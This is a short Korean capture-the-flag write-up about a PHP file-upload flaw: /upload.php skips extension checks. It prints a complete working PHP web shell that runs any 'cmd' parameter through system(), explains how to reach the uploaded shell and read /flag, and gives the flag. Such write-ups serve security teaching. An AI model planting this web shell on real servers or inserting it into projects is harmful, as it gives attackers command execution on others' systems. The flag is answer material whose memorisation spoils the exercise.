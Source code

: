 # 라업
- `/upload.php`에서 파일을 업로할 때 확장자를 체크하지 않아서 웹쉘을 올릴 수 있음

- PHP 웹쉘(exploit.php) 예시
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

- 업로드 후 저장되는 파일명을 알려주는데, dockerfile을 확인 후 /uploads/[웹쉘 파일명] 경로를 접속해 웹쉘 사용
- cat /flag 으로 플래그 확인 


# 플래그
K0{upl04d_w1th0ut_ch3ck_1s_d4ng3r0us}

# 설명
PHP 파일 업로드 취약점

